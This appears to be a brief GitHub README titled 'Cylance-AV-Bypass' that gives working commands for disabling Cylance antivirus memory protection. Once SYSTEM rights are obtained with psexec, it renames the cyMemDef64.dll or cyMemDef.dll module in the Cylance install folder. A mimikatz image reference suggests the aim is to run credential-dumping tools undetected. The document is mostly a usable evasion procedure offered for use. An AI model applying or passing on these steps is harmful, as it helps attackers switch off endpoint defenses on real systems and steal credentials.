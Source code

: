 # Cylance-AV-Bypass
If you have access as NT Authoriy on system, you can bypass Cylance AV by renamin the cyMemDef64.dll for x64 and or cyMemDef.dll for 32bit.
1) Open up command prompt as NT System by running psexec.exe -i -s %SystemRoot%\system32\cmd.exe
2) Run move "C:\Program Files\Cylance\Desktop\cyMemDef64.dll" "C:\Program Files\Cylance\Desktop\cyMemDef64.dll.bak"
3) You can no bypass Cylance Memory protection. 
mimikatz-stforum.jpg

<image src="images/mim.jpg.jpg" width="100" height="100">
